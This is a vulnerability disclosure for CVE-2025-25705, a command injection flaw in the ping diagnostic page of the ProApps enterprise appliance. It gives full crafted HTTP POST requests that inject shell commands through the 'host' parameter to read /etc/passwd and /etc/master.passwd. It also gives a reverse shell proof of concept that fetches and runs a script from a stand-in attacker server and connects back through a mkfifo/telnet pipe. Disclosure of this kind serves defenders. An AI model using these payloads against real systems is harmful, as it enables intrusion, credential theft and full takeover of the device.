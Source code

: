 # CVE-2025-25705
# Description Item:
```
Product Vendor: freebsdbrasil
Item: ProApps - Enterprise Appliance
Editor Creator: DreamWeaver
PHP: PHP Version 7.3.18 
Java Script Library: Jquery UI 1.6 | Jquery 1.2.6
Server: NGINX
Operational System: FreeBDS Unix
```

## Vulnerability Type:
Remote Code Execution

## Description Vulnerability:
The vulnerability occurs because a user can inject system commands through the application using the ping functionality by adding a sequence command operator in Unix environments, such as (;, &&, or |).
To exploit the vulnerability it's necessary to be authenticated. The user must belong to a permission group called 'Status' and have 'Modified' Permission.
It is also important to mention that successful exploitation requires bypassing input sanitization. The application validates user input only on the front end, making it necessary to send the request through a network proxy, for example. In this way the limitations imposed by the application to be bypassed."

## Exploitation:
After authentication, it will be necessary to access a page called `sta_rede.diagnostico_ping` (http(s)://vulnerablepage.index.php?page=sta_rede.diagnostico_ping&task=view).
This page provides a function to perform an ICMP request to an arbitrary host. To learn more about the ping utility and the ICMP protocol (Request and Reply), please refer to the RFC mentioned in the references section.

The application sends a POST request with the parameters host, testar_pacote, and ttl, where `host` is the target of the ping, `testar_pacote` specifies the number of ICMP requests to send, and `TTL` is time to Live (TTL) for the packets. Upon send the request the application executes the following command on the Unix system: `ping -c $testar_pacote $host`. Below is the `POST` request demonstrating the functionality:

```
POST /include/sta/rede.diagnostico_ping.ajax.php HTTP/1.1
Host: vulnerablewebsite.com
Cookie: PHPSESSID=6457d273b50b3bbaea19cbb4500d6577
Content-Length: 66
Authorization: XXXXXXX
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded
Origin: https://vulnerablewebsite.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://vulnerablewebsite.com/index.php?page=sta_rede.diagnostico_ping&task=view
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

page=sta_rede.diagnostico_ping&host=8.8.8.8&testar_pacote=1&ttl=64

```

This is where an attack vector is noticed. A user can exploit the vulnerability by sending a malicious POST request through a network proxy to bypass input sanitization by appending one of the sequence command operators (;, &&, or |) to the `host` parameter, the web application will execute the ping command mentioned above, followed by an additional command. For example, this could include reading sensitive files like `/etc/passwd`, `/etc/master.passwd` or get a reverse shell or execute arbitrary commands.

The POST request below is a crafted and malicious example:

```
POST /include/sta/rede.diagnostico_ping.ajax.php HTTP/1.1
Host: vulnerablewebsite.com
Cookie: PHPSESSID=6457d273b50b3bbaea19cbb4500d6577
Content-Length: 66
Authorization: XXXXXXX
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded
Origin: https://vulnerablewebsite.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://vulnerablewebsite.com/index.php?page=sta_rede.diagnostico_ping&task=view
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

page=sta_rede.diagnostico_ping&host=8.8.8.8; cat /etc/passwd;cat /etc/master.passwd&testar_pacote=1&ttl=64
```

## Reverse Shell POC:
HTTP POST Request to `sta_rede.diagnostico_ping`:
`page=sta_rede.diagnostico_ping&host=x.x.x.x;curl -O http://attackserver/maliciousfile.sh; chmod +x maliciousfile.sh; ./maliciousfile.sh&testar_pacote=1&ttl=64`

### Maicious file content:
TF=$(mktemp -u);mkfifo $TF && telnet $attacker.ip $attacker.port 0<$TF | sh 1>$TF

By listening on the specified port with Netcat, a reverse shell is successfully opened.

## Impact Vulnerability:
RCE (Remote Code Execution) vulnerabilities allow an attacker to execute arbitrary code on a remote device, it can lead in a Full System Compromise, Data Breach, Lateral Movement, Malware Deployment and Reputational and Financial Damage.

### References:
- https://www.rfc-editor.org/rfc/rfc777
- https://www.checkpoint.com/cyber-hub/cyber-security/what-is-remote-code-execution-rce/

